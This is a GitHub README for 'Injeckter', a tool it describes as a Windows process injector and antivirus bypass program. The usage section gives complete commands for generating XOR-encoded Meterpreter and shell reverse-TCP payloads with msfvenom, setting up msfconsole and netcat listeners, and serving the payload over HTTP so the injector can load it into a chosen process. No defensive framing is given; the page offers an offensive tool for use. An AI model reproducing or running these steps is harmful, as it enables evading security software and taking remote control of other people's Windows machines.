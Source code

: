 <!-- PROJECT SHIELDS -->
[![Build Status][build-shield]]()
[![Contributors][contributors-shield]]()
[![MIT License][license-shield]][license-url]


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/kenfinger/Injeckter">
    <img src="logo.png" alt="Logo" width="80" height="80">
  </a>

  <h3 align="center">Injeckter</h3>

  <p align="center">
    A Process Injector and AV Bypass program for Windows
    <br />
    <br />
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Report Bug</a>
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Request Feature</a>
  </p>
</p>



<!-- ABOUT THE PROJECT -->
## About The Project

[![Product Name Screen Shot][product-screenshot]]

A Process Injector and AV Bypass program for Windows.


<!-- USAGE EXAMPLES -->
## Usage

EXAMPLE METERPRETER REVERSE SHELL:

Generate Payload:
# msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:
# msfconsole -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set LHOST <IP_ADDRESS>; set LPORT <PORT>; set ExitOnSession false; exploit -j"

EXAMPLE NETCAT REVERSE SHELL:

Generate Payload:
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:
# nc -nvlp <PORT>

FOR ALL PAYLOADS:

# python3 -m http.server <PORT>
Enter payload URL in Injeckter text box, select or enter process, and click "Run".  



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

Kerry Enfinger - kerry.enfinger@proton.me

Project Link: [https://github.com/kenfinger/Injeckter](https://github.com/kenfinger/Injeckter)


<!-- MARKDOWN LINKS & IMAGES -->
[build-shield]: https://img.shields.io/badge/build-passing-brightgreen.svg?style=flat-square
[contributors-shield]: https://img.shields.io/badge/contributors-1-orange.svg?style=flat-square
[license-shield]: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square
[license-url]: https://choosealicense.com/licenses/mit
[product-screenshot]: https://raw.githubusercontent.com/kenfinger/Injeckter/main/screenshot.png
